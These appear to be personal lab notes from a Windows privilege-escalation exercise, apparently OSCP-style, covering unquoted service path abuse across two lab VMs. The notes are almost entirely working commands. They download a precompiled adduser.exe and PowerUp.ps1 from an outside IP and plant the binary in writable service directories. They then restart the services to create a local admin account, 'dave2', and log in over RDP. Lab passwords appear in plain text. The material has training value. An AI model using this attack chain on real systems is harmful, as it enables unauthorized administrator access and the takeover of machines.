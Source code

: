 Check our rights with icacls
```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

use our previously compiled adduser binary
```
iwr -uri http://192.168.45.181/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Start-Service GammaService
net user # created dave2 admin
```

does powerup find this vulnerability?
```
iwr -uri http://192.168.45.181/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
net user
net localgroup administrators
xfreerdp /u:dave2 /p:password123! /v:192.168.212.220 /w:1200 /h:700
```

### VM 2
```
xfreerdp /u:damian /p:ICannotThinkOfAPassword1! /v:192.168.212.221 /w:1200 /h:700
```

Find running processes with unterminated quotes using cmd
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe
```

Determine where we have perms to inject a file
```
icacls "C:\"
icacls "C:\Enterprise Software"
icacls "C:\Enterprise Software\Monitoring Solution" # has write
icacls "C:\Enterprise Software\Monitoring Solution\Surveillance Apps"
```

now we can inject file
```
iwr -uri http://192.168.45.181/adduser.exe -Outfile Surveillance.exe
copy .\Surveillance.exe 'C:\Enterprise Software\Monitoring Solution\Surveillance.exe'
Restart-Service ReynhSurveillance 
net user
xfreerdp /u:dave2 /p:password123! /v:192.168.212.221 /w:1200 /h:700
```
